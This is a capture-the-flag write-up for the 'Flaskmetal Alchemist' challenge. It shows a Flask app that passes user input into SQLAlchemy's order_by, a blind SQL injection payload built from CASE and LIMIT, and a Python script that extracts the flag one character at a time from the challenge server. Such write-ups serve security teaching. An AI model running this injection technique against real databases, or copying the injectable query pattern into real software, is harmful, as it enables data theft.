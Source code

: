 # Flaskmetal Alchemist

We are given the following code:

```python
from flask import Flask, render_template, request, url_for, redirect
from models import Metal
from database import db_session, init_db
from seed import seed_db
from sqlalchemy import text

app = Flask(__name__)


@app.teardown_appcontext
def shutdown_session(exception=None):
    db_session.remove()


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        search = ""
        order = None
        if "search" in request.form:
            search = request.form["search"]
        if "order" in request.form:
            order = request.form["order"]
        if order is None:
            metals = Metal.query.filter(Metal.name.like("%{}%".format(search)))
        else:
            metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order))
        return render_template("home.html", metals=metals)
    else:
        metals = Metal.query.all()
        return render_template("home.html", metals=metals)


if __name__ == "__main__":
    seed_db()
    app.run(debug=False)

```

Looking into the `requirements.txt` file, we see that a rather old version of SQLAlchemy is used.

```python
click==8.1.2
Flask==2.1.1
importlib-metadata==4.11.3
itsdangerous==2.1.2
Jinja2==3.1.1
MarkupSafe==2.1.1
SQLAlchemy==1.2.17
Werkzeug==2.1.1
zipp==3.8.0

```

This version is in fact vulnerable to [an SQL injection vulnerability](https://github.com/sqlalchemy/sqlalchemy/issues/4481) in `order_by()`.

However, exploiting this is slightly more challenging as the injection point is after the `ORDER BY` clause - at this point, we won't be able to use things like `UNION`, `WHERE`, `OR`, `AND`, etc.

I came across this [article](https://portswigger.net/support/sql-injection-in-the-query-structure) by PortSwigger where the `CASE` clause is used to determine which column the result is sorted by. We'd have to modify the payload into something that SQLite accepts - diving into the SQLite documentation showed us that the following was valid syntax:

```sql
ORDER BY name LIMIT (CASE (SELECT hex(substr(flag,6,1)) FROM flag limit 1 offset 0) WHEN hex('5') THEN  1 ELSE 2 END)
```

This payload will check the `flag` character at index 6. If it matches the character `5`, then the `LIMIT` is set to 1. Otherwise, the `LIMIT` is set to 2.

We could repeat this for each character of the flag:

```python
import requests

alphabet = '0123456789abcdefghijklmnopqrstuvwxyz_{}'
url = 'http://challenge.nahamcon.com:32142'

curr = 'flag{'
i = 6

done = False
while not done:

    found = False

    for char in alphabet:
        print("Trying {}".format(curr + char))
        r = requests.post(url, data={
            'search': '',
            'order': f"name LIMIT (CASE (SELECT hex(substr(flag,{i},1)) FROM flag limit 1 offset 0) WHEN hex('{char}') THEN  1 ELSE 2 END)"
        })
        # print(r.headers['Content-length'])

        if int(r.headers['Content-length']) < 3646:
            found = True
            curr += char
            i += 1
            print("[+] Found {}".format(curr))

    if not found:
        break
```
